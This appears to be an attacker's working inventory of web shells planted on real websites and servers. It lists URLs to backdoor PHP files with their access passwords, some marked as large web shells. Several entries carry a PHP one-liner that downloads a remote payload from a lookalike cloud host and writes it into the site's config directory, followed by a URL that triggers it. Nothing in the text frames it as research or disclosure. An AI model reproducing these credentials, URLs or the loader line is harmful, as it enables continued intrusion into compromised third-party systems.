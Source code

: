 http://ke.kongquewangxiao.com/index_bk.php |mmk123 
http://www.kongquewangxiao.com/themes/js/js.php |mmk123 |  121.196.161.139

https://121.196.161.139/index_bk.php |mmk123 
http://47.122.46.79/core/cache/Redis.php |mmk123 
http://47.122.46.79/index_bk.php |mmk123 
http://114.215.157.212:8885/apps/api/view/default/index_bk.php |mmk123 
http://114.215.157.212:8885/index_bk.php |mmk123 

http://tnt.zdxinfo.com/assets/css/skins/skin.php |mmk123 |  123.56.182.44 | 404

http://fy.whqrlm.com/apps/admin/m1.php |mmk123 |  123.56.182.44
代码更新：0608 ✅
http://fy.whqrlm.com/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://fy.whqrlm.com/config/httpd.php?d=up

http://www.xrca.com.cn/static/index_bk.php |mmk123 |  101.200.217.38
代码更新：0608 ✅
http://www.xrca.com.cn/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://www.xrca.com.cn/config/httpd.php?d=up

http://36.137.146.112:9001/template/default/fileinput/css/index_bk.php |mmk123 
http://36.137.146.112:9001/index_bk.php |mmk123 
http://118.25.152.47:7077/index_bk.php |mmk123 
https://www.alsophila.net/indexbak.php大马 |Admin001... |大马 | 111.229.208.84
https://111.229.208.84/runtime/data/9e776527ecbc372af46aafe2257957ebfd4.php |mmk123 
https://111.229.208.84/index_bk.php |mmk123 
http://123.56.162.208/index_bk.php |mmk123 
http://8.140.22.9/index_bk.php |mmk123 
http://49.235.71.132:384/index_bk.php |mmk123 

http://bama.jnlg.com.cn/assets/css/skins/skins.php |mmk123 |  111.229.186.206 | 404
http://ziku.jnlg.com.cn/h5/js/rem.php |mmk123 |  111.229.186.206
https://42.51.41.208/runtime/config/4b42677b6c14022f2e21a2a92524fde.php |mmk123 
https://42.51.41.208/index_bk.php |mmk123 
https://www.honggutai.com/index_bk.php |mmk123 |  8.137.167.188


phpboot_dd

https://zhimazhihui.com/ |mmk123 |  81.68.249.222
http://www.loront.com/template/default/images/sms/mr1.php |mmk123 |  81.68.249.222
http://www.bengzhiyuan.com/1.php |mmk123 |  81.68.249.222
http://www.bengzhiyuan.cn/static/upload/image/20220724/mr1.php |mmk123 |  81.68.249.222
https://kangbanmeijia.com/template/default/bootstrap/css/2m.php |mmk123 |  81.68.249.222
https://gpzyjy.com/static/upload/image/20220909/2m.php |mmk123 |  8.141.57.49 | 禁止访问

http://www.zhengxin7.com/uploads/allimg/230306/1m.php |mmk123 |  61.160.192.97
代码更新：0608 ✅
http://www.zhengxin7.com/gywm/httpd.php
<?php file_put_contents("../data/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://www.zhengxin7.com/data/httpd.php?d=up
